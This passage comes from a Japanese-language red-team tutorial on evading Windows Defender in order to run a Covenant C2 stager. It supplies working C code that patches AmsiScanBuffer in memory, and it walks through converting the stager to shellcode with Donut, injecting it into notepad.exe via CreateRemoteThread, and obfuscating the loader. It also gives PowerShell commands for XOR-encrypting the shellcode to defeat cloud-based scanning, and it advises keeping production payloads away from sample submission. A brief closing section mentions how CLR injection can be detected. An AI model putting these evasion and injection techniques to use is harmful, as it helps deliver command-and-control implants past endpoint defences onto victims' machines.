ここで、ExecuteInDefaultAppDomain()を呼ぶ前にアンマネージドコード側でAMSIバイパスを行ってみましょう。
以下のコードになります。
int PatchAMSI()
{
unsigned char Patch[] = "\xb8\x57\x00\x07\x80\xc3"; // mov eax,0x80070057
// ret
void* AmsiScanBuffer = GetProcAddress(LoadLibrary(L"AMSI.DLL"), "AmsiScanBuffer");
if (AmsiScanBuffer != NULL) {
printf("[+] AmsiScanBuffer Address: %p\n", (void*)AmsiScanBuffer);
DWORD oldProt, oldOldProt;
VirtualProtect(AmsiScanBuffer, sizeof Patch, PAGE_EXECUTE_READWRITE, &oldProt);
if (memcpy(AmsiScanBuffer, Patch, sizeof Patch)) {
printf("[+] AmsiScanBuffer patch copied!\n\n");
VirtualProtect(AmsiScanBuffer, 4, oldProt, &oldOldProt);
return 1;
}
else {
printf("[!] Failed copying the patch to AmsiScanBuffer!\n");
return 2;
}
}
else {
return 2;
}
}
検知される場合はprintfの削除や難読化など検知回避を施してください
C# 製のAMSIScanBufferBypassと同じ原理です。CLRが読み込まれると amsi.dll もついでに呼ばれるので、先に amsi.dll を読んでパッチしておく作戦です。
これをmainの最初でPatchAMSI()を呼ぶようにコードを変更し、再度コンパイルし実行してみます。

AMSI バイパスを行ったので問題なくGruntが動作しました。
以上、アンマネージドコードでAMSIバイパスを行ったうえで .NET アセンブリを実行することに成功しました。今回は説明を楽にするために読み込むStagerをそのままディスク上に保存していましたが、本来なら暗号化・難読化したうえでファイル内に埋め込んだり（リソースファイルとしてローダー内に含める例）、本記事で紹介したように外部サーバから読み込むべきです。
Donut + ローダでStager起動
本記事の総まとめとして、Donutを使ってWindows Defenderに検知されないバイナリを作成しましょう。
Donut は .NET アセンブリをはじめとする複数のランタイムをネイティブなシェルコード化するプログラムです。
.NET アセンブリを読み込む技術的仕組みはCLRを読み込む前項のPoCと同じですが、ペイロードの圧縮・暗号化・AMSIバイパスの機能も内包しています。AMSIバイパス機能があり、バイパスコードも暗号化されるのでAMSIの検知を回避してバイパスをしてくれます。こちらでわざわざAMSIバイパスを行う必要がないということです。
他にもペイロードをCLRに読み込んだあとに元のリソースをメモリから消去しメモリスキャンを回避させたり、AppDomainの名前をランダマイズ化する機能もあったりして、Donutによって生成されたシェルコードはアンチウイルスソフトの検知回避も期待できます。
なおDonutを利用して生成したシェルコードはPIC (位置独立コード) になっているため、一般的なシェルコードローダを利用してローカルおよびリモートプロセスにインジェクション可能です。
シェルコード作成
早速Donutを使ってStagerをシェルコード化します。

Donut に対して .NET アセンブリであるCovenant Stagerを入力するとネイティブなシェルコードが出力されます。オプションを指定しない場合、出力ログにあるようなオプションが適用されます。
CovenantのShellCode Launcher
Covenant v0.6 でShellCode Launcherが実装されました。これはCovenantサーバ内部のDonutライブラリでStagerをシェルコード化しダウンロードできる機能です。Stagerをシェルコード化したいだけならこれを使うのもよいでしょう。
ローダ
次にローダを書きます。Donutには .NET 製のローダであるDonutTestが同梱されています。
本来なら.NET製ではなくアンマネージドコードでローダを書く方がいいのですが、記事が長くなるので今回は割愛します。
ローダは仕組み上コンパイルしたら間違いなく検知されそうなコードなので、まずはDonutフォルダをアンチウイルスソフトの例外に入れておきましょう。
DonutTest はコード内にBaset64エンコード化されたシェルコードを記載することで、その変数をデコードして、コマンドライン引数で指定したプロセスのメモリ上にPEインジェクションします。インジェクション後、CreateRemoteThread() を使って該当のルーチンを呼び出します。

Donut で出力したシェルコードは、デフォルトではx86/x64両対応のコードになります。よってx64変数、x86変数で同じシェルコードを利用します。
まずはシェルコードをBase64エンコードします。PowerShellでエンコード化する場合は以下。クリップボードにコピーされます。
PS > $filename = "loader.bin"
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
donutの -f 2オプションを適用することで、最初からBase64エンコード化されたシェルコードを出力することもできます。
コード内に張り付けた後、コンパイル。まずはAMSIバイパスの効果を確認するため、リアルタイムスキャンをオンにして実行します。

引数はインジェクション先のプロセスIDを指定します。今回は notepad.exe に対してプロセスインジェクションしました。すると問題なくGruntがアクティベートされました。ProcessHackerで notepad.exe を確認すると、メモ帳にもかかわらず .NETアセンブリが読み込まれています。
メモ帳はアンマネージドコードのプログラムなので、インジェクションすると不審性が高まります。この場合はインジェクションする先のプロセスを .NET 製のものにすることで、アンマネージドコードが突然CLRを読み込むような不審性が現れなくなります。
ファイルスキャンの検知回避
それでは次にファイルスキャンの検知回避です。まずは作成した DonutTest.exe の検知テストをThreatCheckで行いましょう。

検知されます。ちなみに検知名は「VirTool:MSIL/DLoader.A!MTB」です。DLoader、つまりDonutのローダであるDonutTestを決め打ちで検知するようになっているようです。おおかたDonutTestやShellcodeTestなどのDonutTest特有の文字列で検知しているのでしょう。
まずはVisualStudioのプロパティからそのあたりのリソース情報を変更します。

コンパイルし、再度確認します。

ああ、まだ検知されました。恐らくメソッド名などの情報です。これらのコードの変更が面倒ですか？そんなときに楽なのがConfuserEx。難読化してもう一度スキャンしてみます。
※ConfuserExは前述のとおり難がありますが、それを身をもって知るために試してみましょう
ConfuserEx で難読化。難読化設定はrenameだけで問題ありません。

検知しなくなりました。バイナリを例外フォルダから移動してもよさそうですが・・・？
「クラウド提供の保護」の検知回避
次に「クラウド提供の保護」と「サンプルの自動送信」を有効にしてファイルを移動し、実行してみましょう。

検知されてしまいました。「クラウド保護」はプログラム実行時にキックされ、実行前にファイルをMicrosoftのクラウドに送信し、マルウェアスキャンが行われます。クラウド上のスキャンエンジンで問題ないと判断された場合はそのまま実行されますが、このように検知された場合は「指定されたプログラムは実行できません。」というエラーが発生します。それと同時にWindows Defenderによる通知がなされます。
さらにクラウド保護で検知されたファイルはエンジンでシグネチャが作成され、ファイルに含まれていた文字列、つまりシェルコードなども次回から文字列単体で検知するようになります。いったん検知された場合は、しばらくの間、問答無用で検知されるようになります（一定期間たてば単なる文字列は検知対象外に戻る模様）。
よって、「クラウド保護」および「ファイル送信」の検知テストは基本的に検知テスト用バイナリで行うべきで、本番で使うリソースは大事にとっておいた方がいいです。
注意点を書いたところで、検知回避を試してみましょう。上のとおり、今までのシェルコードは検知されてしまうので、Base64シェルコードの部分は検知回避ができることを確認するまでは適当なBase64文字列にしておけばいいです。
さて、クラウド保護はクラウド上にエンジンがある関係上ブラックボックスであり、検知回避するためには少し泥臭いことをする必要があります。まずコードを全面的にコメントアウトしてから少しずつコメントインしてクラウドスキャンを行い、検知箇所を特定する作業です。
というわけで思い切って大部分をコメントアウトしました。実際に使われているコードだけを抜き出すと以下になります。

プロセスインジェクションを行うための2つのAPI宣言のみです。これをConfuserExで難読化して、再度検知テストしましょう。どうでしたか？実はこれだけでも検知するのです。
DllImportを使ったAPI宣言は仕組み上、ConfuserExを使ってもそれをバイナリから隠蔽することはできません。

ただプロセスインジェクションにはこのWin32APIの呼び出しは必須です。
このDllImportの参照は、P/Invokeと呼ばれる参照方法です。D/InvokeやネイティブAPIなど別の呼び出しを使う方法もあります（詳細は割愛）。
ではこれ以上どうすればいいでしょうか。どうしようもない？いいえ、まだ減らすポイントがあります。ConfuserExです。
ConfuserExの罠
ConfuserEx は既存コードの特徴の痕跡を手っ取り早く消し去るのに有用ですが、継続した利用には注意が必要です。
というのも攻撃者やRed TeamerがConfuserExを利用したバイナリで侵害を行いそれをアンチウイルスソフトに検知された場合、Windows Defenderの学習によって今後クラウド保護機能でConfuserExを利用したバイナリが検知されるようになるからです。私が検証した限り、上記の単純なAPI定義コード2つ + ConfuserEx 1.4.1 の組み合わせは、クラウド保護では「Trojan:Win32/Wacatac.C!ml」として検知します。
ConfuserExを通さずに検知テストしてみてください。そう、このコードはConfuserEx を使わなければクラウド保護では検知しなくなるのです。
このことからConfuserExは銀の弾丸ではないとわかります。アンチウイルスソフトといたちごっこを続けるのもいいですが、可能ならConfuserExを使わずに自分でオリジナルのカスタムローダを作成して利用するのが望ましいでしょう。ローダさえ検知回避できればそこから先、AMSIバイパスをすればいいだけですから。
ConfuserExを使わずDonutTestの痕跡を削除する
基本に立ち返ってコード上からDonutTestの痕跡を削除しましょう。記事の途中で行ったアセンブリ情報の変更のほか、基本的にはメソッド名やクラス名などの名前情報の変更が必要です。.NET プログラムはコンパイルでCILに変換されたあとでもこれらの名前情報は残ります。よってリネームを行って完全に痕跡を削除します。
これでだいたいクラウド保護の検知は回避できます。ただダメ押しでもうひとつ工夫してみましょう。
シェルコードを暗号化する
今回はシェルコードを事前にXORで暗号化することにしました。シェルコードをXORで暗号化するテクニックは簡単な割にファイル検知エンジンにはとても有効なので覚えておくと良いでしょう。これなら万が一検知されても鍵を変更すればシェルコードを使いまわせるようになります。
PS > $key = 0x64
PS > $filename = "loader.bin"
PS > $enc = foreach($byte in [IO.File]::ReadAllBytes($filename)){$byte -bxor $key}
PS > [Convert]::ToBase64String($enc) | clip
ローダにXOR復号するコードを入れました。修正後の Main()は以下のようになります。

これをコンパイルして、実行してみます。

実行できました！
クラウド保護を含んだWindows Defenderを全て検知回避してGruntをアクティベーションできました。
まとめ
今回はCovenant Stagerの実行ファイルを例にしてWindows Defenderのファイル検知回避および簡単なAMSIバイパスについて説明しました。
検知について
今回は実行ファイルであるローダからメモ帳のプロセスにCreateRemoteThreadを使って .NET プログラムをインジェクションしました。
CreateRemoteThread は通常のアプリケーションではめったに使われないので、ふるまい検知の点でみると非常に目立ち、EDR製品に検知される可能性が高いです。
また、メモ帳のプロセスでStagerを動作させるのも不審です。理由はシンプルで、Stagerは .NET アセンブリであり、アンマネージドコードのプログラムであるメモ帳が途中でCLRを読み込むのは滅多にないことだからです。“CLR Injection"は、SysmonやETWを利用して検出可能であることをDonutの製作者であるTheWover氏が指摘しています。
One of the companion projects for donut is ModuleMonitor. It uses WMI Event Win32_ModuleLoadTrace to monitor for module loading. It provides filters, detailed data, and has an option to monitor for CLR Injection attacks.
興味のある方は引用元のリンクを確認してください。
その他
去年勉強のために色々なWebサイトを回り2020年時点で使えるとされる手法を学びましたが、結構大変だったので後進のためにここに残しておきました。
あとこの資料を作成したのが2020年10月ですが、これ作った後にOffensive Securityで同じ検知回避をテーマにしたトレーニング(PEN-300/OSEP)が始まったので、資料の価値が薄れてしまった感がある（辛い）
ただPEN-300は受けてないので実際内容が被っているかどうかはわかりません😅